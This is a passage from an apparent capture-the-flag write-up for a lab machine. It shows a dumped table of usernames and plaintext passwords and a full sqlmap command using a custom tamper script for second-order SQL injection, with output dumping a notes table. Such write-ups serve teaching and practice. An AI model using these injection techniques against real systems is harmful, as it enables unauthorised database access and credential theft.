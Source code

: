     | system       | manager           |
    | root         | HasdruBal78       |
    | decoder      | HackerNumberOne!  |
    | ftpuser      | @whereyougo?      |
    | sys          | change_on_install |
    | superuser    | passw0rd          |
    | user         | odiolafeta        |
    +--------------+-------------------+
    ...



That's enough information to move on in the case of nightmare, but if we
wanted to look at the notes table, we could do it with a bit more
precision.

First, we can dump the `notes` table (from the `notes` database):



    root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D notes -T notes --no-cast
    ...
    [06:50:27] [INFO] fetching columns for table 'notes' in database 'notes'
    [06:50:28] [WARNING] reflective value(s) found and filtering out
    [06:50:28] [INFO] used SQL query returns 4 entries
    [06:50:28] [INFO] retrieved: "id","int(4) unsigned"
    [06:50:29] [INFO] retrieved: "user","int(4) unsigned"
    [06:50:30] [INFO] retrieved: "title","varchar(255)"
    [06:50:30] [INFO] retrieved: "text","text"
    [06:50:30] [INFO] fetching entries for table 'notes' in database 'notes'
    [06:50:31] [INFO] used SQL query returns 1 entries
    Database: notes
    Table: notes
    [1 entry]
    +----+------------------------+-----------------------------------------------------------------+--------+
    | id | text                   | title                                                           | user   |
    +----+------------------------+-----------------------------------------------------------------+--------+
    | 1  | What a wonderful note! | This is my first note No one else than me (admin) should see it | 1      |
    +----+------------------------+-----------------------------------------------------------------+--------+
    ...



Next, we'll look at the users table, and we'll try to defeat username
that start with 'aaaaa' from our search, since we added those, with the
`--where` flag:
